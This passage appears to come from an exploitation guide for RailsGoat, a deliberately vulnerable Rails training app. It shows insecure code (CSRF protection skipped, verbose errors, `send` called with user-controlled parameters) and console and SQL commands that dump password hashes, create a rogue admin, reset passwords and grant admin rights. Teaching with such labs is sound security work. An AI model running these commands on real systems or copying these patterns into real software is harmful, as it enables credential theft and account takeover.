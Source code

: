 ### 2. CSRF Token Bypass
```ruby
# CSRF protection disabled
skip_before_action :verify_authenticity_token
```

### 3. Information Disclosure
```ruby
# Verbose error pages
config.consider_all_requests_local = true

# Exposed routes
http://localhost:3002/rails/info/routes
```

### 4. Unsafe Metaprogramming
```ruby
# Dynamic method calls
@user.send(params[:method], params[:value])

# Attack
http://localhost:3002/users/1?method=destroy
```

## Exploitation Techniques

### Rails Console Access
```bash
# If you gain shell access
rails console

# Dump all users
User.all.each { |u| puts "#{u.email}: #{u.encrypted_password}" }

# Create admin
User.create!(email: 'hacker@evil.com', password: 'password', admin: true)

# Reset passwords
User.find_by(email: 'admin@railsgoat.com').update!(password: 'hacked')
```

### Database Access
```bash
# Direct database queries
rails dbconsole

# SQL commands
SELECT * FROM users;
UPDATE users SET admin = true WHERE email = 'user@railsgoat.com';
```
